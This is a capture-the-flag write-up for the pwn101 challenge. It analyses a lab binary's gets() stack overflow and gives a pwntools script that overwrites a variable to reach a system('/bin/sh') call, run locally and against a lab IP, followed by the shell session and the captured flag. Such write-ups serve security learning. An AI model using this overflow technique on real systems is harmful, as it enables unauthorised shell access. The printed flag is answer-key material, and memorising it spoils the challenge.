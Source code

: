 # Challenge Name : pwn101

category : pwn

clue : This should give you a start: 'AAAAAAAAAAA'

# Approach

## File Protection

```
checksec --file=pwn101-1644307211706.pwn101

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE

Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   72 Symbols        No    0      1pwn101-1644307211706.pwn101
```

This file has no Canary enable.NX(Non Executable) is enable which is mean we cannot run shell code .PIE(Position-Independant Executable) is enable : change addresss every execution.

## File Analysis with cutter
Lets open up with cutter to see the code.

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn101-1644307211706.pwn101&
```
Let's take a look at main function.
we can see there are two variable

```
; var char *s @ stack - 0x48
; var uint64_t var_ch @ stack - 0xc
```

we can see gets function is used. When we try to look up at the man page for gets

```
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets 
```
```
 man gets 
```
```
BUGS
       Never  use  gets().   Because  it  is impossible to tell without knowing the data in advance how many characters
       gets() will read, and because gets() will continue to store characters past the end of the  buffer,  it  is  ex‐
       tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead
```

we can see that using this get function we can overflow our buffer

## Buffer Overflow

Our objective  is to overflow the buffer till it reach rbp - 4 and change it value to not equal 0x8f9

```
0x000008da      7 817dfc39050000         cmp     dword [rbp - 4], data.00000539 ; 0x539 ; compare two operands
0x000008e1      2 7516                   jne     0x8f9 ; jump short if not equal/not zero (zf=0)
```
So that is can jump to this code of block which has  call system which will open up the shell.
```
0x000008f9      7 488d3d18030000         lea     rdi, [rip + str.Thanks__Here_s_a_small_gift_for_you__3] ; 0xc18 ; load effective address; const char *s
0x00000900      5 e8abfdffff             call    puts ; sym.imp.puts ; calls a subroutine, push eip into the stack (esp) ; int puts(const char *s)
0x00000905      7 488d3d33030000         lea     rdi, [rip + str.bin_sh] ; 0xc3f ; load effective address; const char *string
0x0000090c      5 e8affdffff             call    system ; sym.imp.system ;
```

## Solution
```
0x000008c9      4 488d45c0               lea     rax, [rbp - 0x40] ; load effective address
0x000008cd      3 4889c7                 mov     rdi, rax ; moves data from src to dst; char *s
0x000008d0      5 b800000000             mov     eax, 0 ; moves data from src to dst
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets ; 
```

We have to remember that our write will go from lower to higher address.
from this we can see that buffer start at [rbp - 0x40] or stack - 48 . And the variable we want to rewrite is at rbp - 4 . Note that stack = rbp + 8.

![alt text](image.png)

## Writing python code

writing `exploit.py` 
```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

p = process()
p.recv()
p.sendline(payload)
p.interactive()
```

``` 
python3 exploit.py
```

and we get the shell

Lets do this remotely by first change the code a bit.

```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

#p = process()
p = remote("10.10.246.99",9001)
p.recv()
p.sendline(payload)
p.interactive()
```
```
python3 exploit.py
[*] '/home/kali/TryHackMe/pwn101/pwn101/pwn101-1644307211706.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.10.246.99 on port 9001: Done
[*] Switching to interactive mode

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
```
now we can accesss the shell . Lets check the list of file and read the flag.

```
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
```

